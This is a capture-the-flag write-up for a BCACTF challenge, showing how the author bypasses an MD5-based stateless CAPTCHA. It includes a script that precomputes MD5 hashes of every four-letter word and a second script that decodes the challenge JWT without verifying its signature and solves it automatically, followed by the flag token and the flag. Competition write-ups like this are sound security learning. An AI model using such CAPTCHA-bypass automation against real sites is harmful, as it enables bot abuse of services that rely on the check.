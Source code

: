 ```yaml
---
ai_date: 2025-04-27 05:12:51
ai_summary: Bypassed MD5 CAPTCHA by generating a hash table and solving the challenge with precomputed word matches.
ai_tags:
  - md5
  - hash-table
  - captcha-bypass
created: 2024-06-09T18:06
updated: 2025-07-14T09:46
---
```


> Can you bypass this website's new stateless CAPTCHA system?

---

Seems to be a MD5 captcha system.

## First we will generate the entire hash table for 4 letter words.

```python
import hashlib  
import pickle  
  
md5_hash_table = {}  
for i in range(26 ** 4):  
    perm = ''  
    for j in range(4):  
        perm += chr(65 + (i // (26 ** j)) % 26)  
    md5_hash_table[hashlib.md5(perm.encode('utf-8')).hexdigest()] = perm  
  
with open("hash_table.pkl", "wb") as f:  
    pickle.dump(md5_hash_table, f)
```

## Then, we will solve the captcha, and get the flag.

```python
import pickle  
from tqdm import tqdm  
import jwt  
import requests  
  
with open("hash_table.pkl", "rb") as f:  
    loaded_hash_table = pickle.load(f)  
  
url = "http://challs.bcactf.com:30477/captcha"  
data = requests.post(url, json={"routeId": "/flag"}).json()  
for i in tqdm(range(data['total'])):  
    captchaToken, solved, total, done = data['captchaToken'], data['solved'], data['total'], data['done']  
    decoded = jwt.decode(captchaToken, algorithms=["HS256"], options={"verify_signature": False})  
    h = decoded['challengeId']  
    d = loaded_hash_table[h]  
    data = requests.post(url, json={"captchaToken": captchaToken, "word": d}).json()  
print(f"http://challs.bcactf.com:30477/flag?token={data['captchaToken']}")
```

Simple.

```
http://challs.bcactf.com:30477/flag?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjYXB0Y2hhSWQiOiJkOWE5ZThiNi1hODUwLTQ5NDQtYTEwNC0wMmJiYTYyNDJhMTMiLCJyb3V0ZUlkIjoiL2ZsYWciLCJjaGFsbGVuZ2VJZCI6bnVsbCwic29sdmVkIjo3NSwidG90YWwiOjc1LCJkb25lIjp0cnVlLCJpYXQiOjE3MTc5NzMwMzQsImV4cCI6MTcxNzk3MzA5NH0._XcYLLZL_YJ8GpngWfDsp_fAz-G_92NSXUEwoTIdhC4
```

> # The Flag
> bcactf{b33p_B0oP_iM_a_B0t_1b728b571b9a}